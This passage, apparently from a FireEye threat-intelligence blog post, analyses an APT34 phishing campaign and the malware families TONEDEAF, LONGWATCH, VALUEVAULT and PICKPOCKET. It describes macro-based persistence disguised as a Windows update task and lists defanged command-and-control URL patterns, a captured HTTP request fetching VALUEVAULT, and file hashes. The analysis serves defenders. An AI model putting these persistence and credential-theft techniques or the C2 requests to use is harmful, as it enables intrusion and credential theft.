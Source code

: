 is focusing heavily on e-mail defenses to prevent intrusions.FireEye examined the original file ERFT-Details.xls, which was observed with at least two unique MD5 file hashes:96feed478c347d4b95a8224de26a1b2ccaf418cbf6a9c4e93e79d4714d5d3b87A snippet of the VBA code, provided in Figure 2, creates System.doc in the target directory from base64-encoded text upon opening.    Figure 2: Screenshot of VBA code from System.docThe spreadsheet also creates a scheduled task named "windows update check" that runs the file C:\Users\<user_name>\.templates\System Manager.exe every minute. Upon closing the spreadsheet, a final VBA function will rename System.doc to System Manager.exe. Figure 3 provides a snippet of VBA code that creates the scheduled task, clearly obfuscated to avoid simple detection.    Figure 3: Additional VBA code from System.docUpon first execution of TONEDEAF, FireEye identified a callback to the C2 server offlineearthquake[.]com over port 80.The FireEye Footprint: Pivots and Victim IdentificationAfter identifying the usage of offlineearthquake[.]com as a potential C2 domain, FireEye’s Intelligence and Advanced Practices teams performed a wider search across our global visibility. FireEye’s Advanced Practices and Intelligence teams were able to identify additional artifacts and activity from the APT34 actors at other victim organizations. Of note, FireEye discovered two additional new malware families hosted at this domain, VALUEVAULT and LONGWATCH. We also identified a variant of PICKPOCKET, a browser credential-theft tool FireEye has been tracking since May 2018, hosted on the C2.Requests to the domain offlineearthquake[.]com could take multiple forms, depending on the malware’s stage of installation and purpose. Additionally, during installation, the malware retrieves the system and current user names, which are used to create a three-character “sys_id”. This value is used in subsequent requests, likely to track infected target activity. URLs were observed with the following structures:hxxp[://]offlineearthquake[.]com/download?id=<sys_id>&n=000hxxp[://]offlineearthquake[.]com/upload?id=<sys_id>&n=000hxxp[://]offlineearthquake[.]com/file/<sys_id>/<executable>?id=<cmd_id>&h=000hxxp[://]offlineearthquake[.]com/file/<sys_id>/<executable>?id=<cmd_id>&n=000The first executable identified by FireEye on the C2 was WinNTProgram.exe (MD5: 021a0f57fe09116a43c27e5133a57a0a), identified by FireEye as LONGWATCH. LONGWATCH is a keylogger that outputs keystrokes to a log.txt file in the Window’s temp folder. Further information regarding LONGWATCH is detailed in the Malware Appendix section at the end of the post.FireEye Network Security appliances also detected the following being retrieved from APT34 infrastructure (Figure 4).GET hxxp://offlineearthquake.com/file/<sys_id>/b.exe?id=<3char_redacted>&n=000User-Agent: Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0)AppleWebKit/537.36 (KHTML, like Gecko)Host: offlineearthquake[.]comProxy-Connection: Keep-Alive Pragma: no-cache HTTP/1.1Figure 4: Snippet of HTTP traffic retrieving VALUEVAULT; detected by FireEye Network Security applianceFireEye identifies b.exe (MD5: 9fff498b78d9498b33e08b892148135f) as VALUEVAULT.VALUEVAULT is a Golang compiled version of the "Windows Vault Password Dumper" browser credential theft tool from Massimiliano Montoro, the developer of Cain & Abel.VALUEVAULT maintains the same functionality as the original tool by allowing the operator to extract and view the credentials stored in the Windows Vault. Additionally, VALUEVAULT will call Windows PowerShell to extract browser history in order to match browser passwords with visited sites. Further information regarding VALUEVAULT can be found in the appendix below.Further pivoting from FireEye appliances and internal data sources yielded two additional files, PE86.dll (MD5: d8abe843db508048b4d4db748f92a103) and PE64.dll (MD5: 6eca9c2b7cf12c247032aae28419319e). These files were analyzed and determined to be 64- and 32-bit variants of the malware PICKPOCKET, respectively.PICKPOCKET is a credential theft tool that dumps the user's website login credentials from Chrome, Firefox, and Internet Explorer to a file. This tool was previously observed during a Mandiant incident response in 2018 and, to date, solely utilized by APT34.ConclusionThe activity described in this blog post presented a well-known Iranian threat actor utilizing their tried-and-true techniques to breach targeted organizations. Luckily, with FireEye’s platform in place, our Managed Defense customers were not impacted. Furthermore, upon the blocking of this activity, FireEye was able to expand upon the observed indicators to identify a broader campaign, as well as the use of new and old malware.We suspect this will not be the last time APT34 brings new tools to the table. Threat actors are often reshaping their TTPs to evade detection mechanisms, especially if the target is highly desired. For these reasons, we recommend organizations remain vigilant in their defenses, and remember to view their environment holistically when it comes to information security.Learn more about Mandiant Managed Defense, and catch an on-demand recap on this and the Top 5 Managed Defense attacks this year.Malware AppendixTONEDEAFTONEDEAF is a backdoor that communicates with Command and Control servers using HTTP or DNS. Supported commands include system information collection, file upload, file download, and arbitrary shell command execution. Although this backdoor was coded to be able to communicate with DNS requests to the hard-coded Command and Control server, c[.]cdn-edge-akamai[.]com, it was not configured to use this functionality. Figure 5 provides a snippet of the assembly CALL instruction of dns_exfil. The creator likely made this as a means for future DNS exfiltration as a plan B.    Figure 5: Snippet of code from TONEDEAF binaryAside from not being enabled in